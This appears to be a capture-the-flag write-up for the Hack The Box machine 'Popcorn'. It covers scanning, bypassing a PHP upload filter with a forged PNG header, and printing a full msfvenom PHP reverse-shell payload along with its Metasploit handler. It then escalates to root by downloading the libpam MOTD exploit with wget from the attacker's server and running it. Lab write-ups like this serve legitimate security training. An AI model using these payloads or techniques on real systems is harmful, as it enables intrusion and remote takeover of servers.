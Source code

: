 # Popcorn Box

</br>

## Summary

* Enumeration: `nmap / dirb`
* WebApp analysis: `TorrentHoster`
* ReverseShell upload: `msfvenom && msf handler`
* MOTD exploit: `searchsploit`

</br>

## Step #1

```sh
$ nmap -sV -sC -oA nmap 10.10.10.6
```
```
# Nmap 7.70 scan initiated Tue Jun  5 12:13:00 2018 as: nmap -sV -sC -oA nmap 10.10.10.6
Nmap scan report for 10.10.10.6
Host is up (0.025s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun  5 12:13:16 2018 -- 1 IP address (1 host up) scanned in 16.05 seconds
```

```bash
$ dirb http://10.10.10.6 -r -o dirb
```
```
-----------------
DIRB v2.22
By The Dark Raver
-----------------

OUTPUT_FILE: dirb
START_TIME: Tue Jun  5 12:17:35 2018
URL_BASE: http://10.10.10.6/
WORDLIST_FILES: /usr/local/share/dirb/wordlists/common.txt
OPTION: Not Recursive

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.10.6/ ----
==> DIRECTORY: http://10.10.10.6/.ssh/
+ http://10.10.10.6/cgi-bin/ (CODE:403|SIZE:286)
+ http://10.10.10.6/index (CODE:200|SIZE:177)
+ http://10.10.10.6/index.html (CODE:200|SIZE:177)
+ http://10.10.10.6/server-status (CODE:403|SIZE:291)
+ http://10.10.10.6/test (CODE:200|SIZE:47328)
==> DIRECTORY: http://10.10.10.6/torrent/

-----------------
END_TIME: Tue Jun  5 12:26:21 2018
DOWNLOADED: 4612 - FOUND: 5
```

### Results:

* A Apache HTTP server is runnning on port 80
* This server serve a WebApp named TorrentHoster on url `http://10.10.10.6/torrent`

</br>

## Step #2

Now, it will be necessarry to analyze the web app to find security vulnerability such as a incorrect file upload.

* Try default password on login: `Fail`

* Sign-up to get access to upload functionality

* Login with user just created

* Upload a php file: `Fail`

* Upload a torrent: `Success`

* Go to the description page of the torrent uploaded: screenshot upload field available

* Try to upload a image first: `Success`

* Locate the image uploaded: `http://10.10.10.6/torrent/upload`

* Try to upload a `php` file: `Fail`

* Modify the request using Burp repeater with adding PNG identifier get on the previous upload and add `.png` on the filename.

  ``````
  Content-Disposition: form-data; name="file"; filename="back.png.php"
  Content-Type: image/png
  
  �PNG
  
  IHDRnZY�c@ sBIT | d�<?php [REVSHELL CODE] die();
  ``````

**Reminder:**

To check the "identifier" of a file:

* Select a piece of the begining of the file in the body section of the request

* Convert to base64 using Burp

* Check the type of the file with the command `file`

  ````````````bash
  $ echo "iVBORw0KGgoAAAANSUhEUgAAAG4AAABaCAYAAABZsGNAAAAABHNCSVQICAgIfAhkiAAAAA==" | gbase64 -d > file
  $ file file
  file: PNG image data, 110 x 90, 8-bit/color RGBA, non-interlaced
  ````````````

</br>

## Step #3

We know now how to upload a php file by bypassing upload security. We will concequently try to upload a meterpreter.

1. Generate `php` file:

```sh
$ msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.X.X lport=4242 -f raw
```

```
No platform was selected, choosing Msf::Module::Platform::PHP from the payload
No Arch selected, selecting Arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1111 bytes
/*<?php /**/ error_reporting(0); $ip = '10.10.X.X'; $port = 4242; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();
```

2. Upload it on TorrentHoster with the technique describe previously
3. Start a meterpreter handler

```sh
$ msfconsole
msf> use exploit/multi/handler
msf> set payload php/meterpreter/reverse_tcp
msf> set lhost 10.10.X.X
msf> set lport 4242
msf> run
```

4. Go to `http://10.10.10.6/torrent/upload` and click on the `php` just uploaded

5. Success, we have got a meterpreter shell to the box

   ``````
   meterpreter> shell
   ls /home
   george
   cat /home/george/user.txt
   *******HASH**********
   ``````

6. ???

7. PROFIT

</br>

## Step #4

It is time to perform a privilege escalation on this box

* In `.cache` folder of george home we can find a motd file

* A [exploit](https://www.exploit-db.com/exploits/14339/) of MOTD is available on ExploitDB for a libpam <= 1.1.0 

* Check the version of libpam on popcorn: `Vulnerable`

  ``````sh
  $ dpkg -l | grep pam
  ``````

* Upload exploit script to the machine using python HTTP server

  ``````sh
  attacker$ python -m SimpleHTTPServer 4242
  popcorn$ cd /dev/shm
  popcorn$ wget http://10.10.X.X:4242/privesc.sh
  popcorp$ chmod +x privesc.sh
  popcorn$ ./privesc.sh
  [...]
  root$ cat /root/root.txt
  ******HASH********
  ``````

  

